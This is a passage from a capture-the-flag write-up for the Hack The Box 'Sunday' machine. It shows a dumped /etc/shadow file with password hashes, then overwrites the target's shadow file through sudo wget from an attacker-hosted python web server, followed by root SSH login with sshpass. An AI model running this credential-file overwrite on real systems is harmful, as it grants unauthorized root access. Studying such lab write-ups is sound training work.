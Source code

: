 	Content-Type: application/x-www-form-urlencoded
	Content-Length: 746
	
	root:$5$rounds=10000$fIoXFZ5A$k7PlwsiH0wAyVOcKaAYl/Mo1Iq6XYfJlFXs58aA4Sr3:18969::::::263424
	daemon:NP:6445::::::
	bin:NP:6445::::::
	sys:NP:6445::::::
	adm:NP:6445::::::
	dladm:*LK*:17760::::::
	netadm:*LK*:17760::::::
	netcfg:*LK*:17760::::::
	dhcpserv:*LK*:17760::::::
	ftp:*LK*:17760::::::
	sshd:*LK*:17760::::::
	smmsp:NP:17760::::::
	aiuser:*LK*:17760::::::
	ikeuser:*LK*:17760::::::
	lp:NP:6445::::::
	openldap:NP:17760::::::
	webservd:*LK*:17760::::::
	unknown:*LK*:17760::::::
	pkg5srv:NP:17760::::::
	nobody:*LK*:17760::::::
	noaccess:*LK*:6445::::::
	nobody4:*LK*:6445::::::
	sammy:$5$rounds=10000$lUpW4prM$aKFJxjI7vlcj5DDvwIgYGy707a84mIEi0ZQK3XIDqT2:18980::::::
	sunny:$5$rounds=10000$bioFdRBN$1TTdfQFfhjNicxWhH07f8BIHABZ8di01CXWYTT5rMn9:18980::::::2661408
	```
4. Replace `root`'s hash w/ `sunny`'s hash
	```
	root:<SUNNY's HASH>:18969::::::263424
	```
	- So that `root`'s password is changed to `sunny`'s
	- Remember to remove `HTTP HEADER`
5. Start python web server hosting our  `shadow` file
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
	└─# python3 -m http.server 80
	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	```
6. Replace `sunday.htb`'s `/etc/shadow` file w/ our `shadow` file
	```
	sammy@sunday:/tmp$ sudo /usr/bin/wget http://10.10.14.31/shadow -O /etc/shadow
	```
7. SSH w/ `root:sunday`
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit]
	└─# sshpass -p 'sunday' ssh root@$ip -p 22022
	```
	![](Pasted%20image%2020220903064226.png)
8. Root Flag
	```
	root@sunday:~# cat root.txt 
	fb40fab61d99d37536daeec0d97af9b8
	```
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="demo"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
